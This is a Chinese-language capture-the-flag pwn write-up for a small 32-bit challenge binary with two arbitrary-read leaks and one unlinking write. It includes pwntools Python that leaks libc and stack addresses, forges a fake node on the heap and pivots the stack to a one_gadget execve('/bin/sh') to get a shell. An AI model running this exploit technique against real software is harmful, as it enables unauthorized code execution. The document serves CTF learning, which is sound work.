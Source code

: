 ### writeup 

第一次做pwn，很紧张啊 。。。。 虽然题目很简单，但是我还是做了很久。

![](./img/1.png)

#### 题目条件

题目有两次泄露，可以泄露任意地址的内容：

```c
  v3 = (char *)malloc(0x14u);
  buf = v3;
  v3[read(0, v3, 15u) - 1] = 0;
  v5 = (_DWORD *)atoll(buf);
  printf("%d, %p\n", v5, *v5);
  puts("Second chance: ");
  buf[read(0, buf, 0xFu) - 1] = 0;
  v6 = (_DWORD *)atoll(buf);
  printf("%d, %p\n", v6, *v6);
```

然后有一次任意地址写入的机会：

```c
  v7 = (node *)malloc(0x14u);
  printf("The address of the node is %p, and you can input the fake node now: ", v7);
  read(0, v7, 0x10u);
  v8 = (node *)v7->prev;
  v9 = (node *)v7->next;
  v8->next = (int)v9;
  v9->prev = (int)v8;
  return 0;
```

#### 利用思路 

第一次写入 puts 函数的 got 表地址，然后泄露出来 puts 函数的加载地址，计算出来 libc 的加载基址。

```python
putsGot = e.got['puts']
print("[*] puts got addrss :" + hex(putsGot))

r.sendline(str(putsGot)) # puts got

putAddr = r.recvline()[-11:-1]
print("[*] put address: "+putAddr)
putSymbol = libc.symbols["puts"]
print("[*] puts function symbols addr:" + hex(putSymbol))
libcBase = int(putAddr,16) - putSymbol
print("[*] libc Base addr :"+hex(libcBase))
```

第二次写入 program_invocation_name 的地址，它是指向栈的指针，泄露出来的就是栈地址。

program_invocation_name 和 ebp 之间的偏移是固定的，调试一下发现偏移是 690 ，可以得到 ebp 的地址。

```python
invocation_name_symbols = libc.symbols["program_invocation_name"]
invocation_short_name_symbols = libc.symbols["program_invocation_short_name"] 
print("[*] program_invocation_name symbols addr : "+ hex(invocation_name_symbols))
print("[*] program_invocation_short_name symbols addr : "+ hex(invocation_short_name_symbols))
invocation_name_addr = invocation_name_symbols + libcBase
invocation_short_name_addr = invocation_short_name_symbols + libcBase
print("[*] program_invocation_name addr: " + hex(invocation_name_addr))
print("[*] program_invocation_short_name addr: " + hex(invocation_short_name_addr))
print(r.recvline())
r.sendline(str(invocation_name_addr))
stackAddr = r.recvline()[-11:-1]
ebpAddr = int(stackAddr,16) - 690
print("[*] stackAddr:"+ stackAddr)
```

思路是修改 ebp 的地址，在 main 函数返回时执行 `leave` 的时候，修改 esp 的地址，做一次栈迁移，
在自己伪造的栈上放上 one_gadget 的地址，执行 retn 的时候，就会拿到shell。

但是有个问题，我们不能直接改 ebp ， 因为没用。

```asm
.text:080486D3                 add     esp, 10h
.text:080486D6                 mov     eax, [ebp+var_14]
.text:080486D9                 mov     eax, [eax+0Ch]
.text:080486DC                 mov     [ebp+var_10], eax
.text:080486DF                 mov     eax, [ebp+var_14]
.text:080486E2                 mov     eax, [eax+8]
.text:080486E5                 mov     [ebp+var_C], eax
.text:080486E8                 mov     eax, [ebp+var_10]
.text:080486EB                 mov     edx, [ebp+var_C]
.text:080486EE                 mov     [eax+8], edx
.text:080486F1                 mov     eax, [ebp+var_C]
.text:080486F4                 mov     edx, [ebp+var_10]
.text:080486F7                 mov     [eax+0Ch], edx
.text:080486FA                 mov     eax, 0
.text:080486FF                 mov     ecx, [ebp-4]
.text:08048702                 leave
.text:08048703                 lea     esp, [ecx-4]
.text:08048706                 retn
```
在 `leave` 指令执行之后，又修改了 esp `lea     esp, [ecx-4]` , 所以可以通过修改 `ebp - 4` 的值来控制 `esp`。

但是，要在哪里伪造 fake stack 呢？ 发现题目给了堆地址， 可以把fake 堆的地址伪造到堆上 。 

```python
heapAddr = int(r.recv(1024)[27:36],16)
print("[*] heap addr :" + hex(heapAddr))
# gdb.attach(r,"b *0x08048702")
one_gadget = 0x3ac5c 

print("[*] move eip to :" + hex(0x5fbc5 + libcBase))
r.sendline(p32(one_gadget + libcBase)+p32(one_gadget + libcBase)+p32(heapAddr + 4 )+p32(ebpAddr-4 -8))
```
地址是 `0x3ac5c` 的 one_gadget , 需要的条件是 ：

```bash
0x3ac5c	execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL
```
调试一下发现刚好满足。